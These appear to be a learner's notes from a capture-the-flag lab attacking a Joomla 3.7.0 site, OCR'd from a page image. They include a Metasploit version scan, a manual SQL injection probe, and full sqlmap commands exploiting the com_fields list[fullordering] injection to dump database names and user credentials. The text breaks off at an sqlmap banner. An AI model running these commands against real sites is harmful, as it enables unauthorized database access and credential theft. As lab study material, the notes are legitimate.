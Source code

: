 This was interesting maybe I can do more to verify Joomla version I tried inputting ' to induce an error or or like  a ' OR True;-- which also failed. It also detected 3306 Maria DB 10.3.23 or earlier on mysql 

inspecting the page made me find this directory in the HTML /index.php/component/users/?Itemid=101" this may be querying a backend database

-------------------------------------------------------------------

msf6 auxiliary(scanner/http/joomla_version) > set RHOSTS 10.10.132.218
RHOSTS => 10.10.132.218
msf6 auxiliary(scanner/http/joomla_version) > set TARGETURI /administrator/
TARGETURI => /administrator/
msf6 auxiliary(scanner/http/joomla_version) > run
[*] Server: Apache/2.4.6 (CentOS) PHP/5.6.40
[+] Joomla version: 3.7.0
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/joomla_version) > 

---------------------------------------------------------------------
used metasploit aux scanner to confirm joomla version
then tested some joomla 3.7.0 exploits I see because I can't get the SQLmap version nor this RCE to work

https://www.exploit-db.com/exploits/42033

I then found someone who ran a different command for SQL map WHICH I STILL NEED TO TRY


command: sqlmap -u "http://192.168.1.14/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' -C name,password --dump --batch

I now tried the command (go back and read your notes). The command didn't work. I tried again a day later and it actually found things.

it outputted

--------------------------------------------------------------------------

available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test
-------------------------------------------------------------------------------------------------------------
so I now want to enumerate the tables in the joomla database 
----------------------------------------------------------------------------------------------------------
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://10.10.74.3/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla --tables
        ___
       __H__                                                                                                                                          
 ___ ___[)]_____ ___ ___  {1.9.2#stable}                                                                                                              
|_ -| . [,]     | .'| . |                                                                                                                             
|___|_  [,]_|_|_|__,|  _|                                                                                                                             
      |_|V...       |_|   https://sqlmap.org                                                                                                          
